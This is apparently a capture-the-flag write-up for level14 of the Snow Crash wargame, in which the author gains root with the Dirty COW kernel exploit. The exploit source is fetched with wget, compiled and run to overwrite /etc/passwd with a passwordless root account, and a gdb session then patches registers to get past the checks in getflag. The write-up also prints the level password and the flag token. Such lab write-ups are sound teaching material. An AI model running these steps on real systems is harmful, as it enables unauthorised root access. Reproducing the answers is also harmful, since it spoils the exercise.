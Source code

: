 Login as `level14`.
```shell
┌──$ [~/42/2021/snow-crash]
└─>  ssh 192.168.1.64 -p 4242 -l level14
level14@192.168.1.64's password: 2A31L79asukciNyi8uppkEuSx
```
There is no file or binary to exploit in home directory. Search for what can be exploit.
```shell
level14@SnowCrash:~$ uname -a
Linux SnowCrash 3.2.0-89-generic-pae #127-Ubuntu SMP Tue Jul 28 09:52:21 UTC 2015 i686 i686 i386 GNU/Linux
```
Linux kernel `< 4.8.3` (created before 2018) are vulnerable to **Dirty COW**[¹](https://dirtycow.ninja/).

Dirty COW allows privilege escalation by exploiting race condition on the copy-on-write mechanism.
```shell
level14@SnowCrash:~$ cd /tmp/
level14@SnowCrash:/tmp$ wget https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c
level14@SnowCrash:/tmp$ gcc -pthread dirty.c -o dirty -lcrypt
level14@SnowCrash:/tmp$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: <Enter>
Complete line:
firefart:figsoZwws4Zu6:0:0:pwned:/root:/bin/bash

mmap: b7fda000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password ''.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password ''.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
```
Login as `root`.
```shell
level14@SnowCrash:/tmp$ su firefart
Password: <Enter>
```
Login as `flag14` and get the flag.
```shell
firefart@SnowCrash:/tmp# su flag14
Congratulation. Type getflag to get the key and send it to me the owner of this livecd :)
flag14@SnowCrash:~$ getflag
Check flag.Here is your token : 7QiHafiNa3HVozsaXkawuYrTstxbpABHD8CPnHJ
```




```gdb
level14@SnowCrash:~$ gdb /bin/getflag
(gdb) break main
Breakpoint 1 at 0x804894a
(gdb) run
Starting program: /bin/getflag

Breakpoint 1, 0x0804894a in main ()
(gdb) target record
(gdb) b *0x0804898e
Breakpoint 2 at 0x804898e
(gdb) continue
Continuing.

Breakpoint 2, 0x0804898e in main ()
(gdb) set $eax=42
(gdb) until
0x080489a8 in main () # Jumped on line
(gdb) until
0x080489a8 in main ()
(gdb) b *0x080489b4
Breakpoint 5 at 0x80489b4
(gdb) continue
Continuing.

Breakpoint 5, 0x080489b4 in main ()
(gdb) until
0x080489b6 in main ()
(gdb) until
0x080489ea in main () # Jumped on line
(gdb) b *0x080489fe
Note: breakpoints 6 and 7 also set at pc 0x80489fe.
Breakpoint 8 at 0x80489fe
(gdb) continue
Continuing.

Breakpoint 6, 0x080489fe in main ()
(gdb) until
0x08048a00 in main ()
(gdb) until
0x08048a34 in main () # Jumped on line
(gdb) b *0x08048a4c
Breakpoint 9 at 0x8048a4c
(gdb) continue
Continuing.

Breakpoint 9, 0x08048a4c in main ()
......

(gdb) b *0x08048ea5
Breakpoint 10 at 0x8048ea5
(gdb) continue
Continuing.

Breakpoint 10, 0x08048ea5 in main ()

```
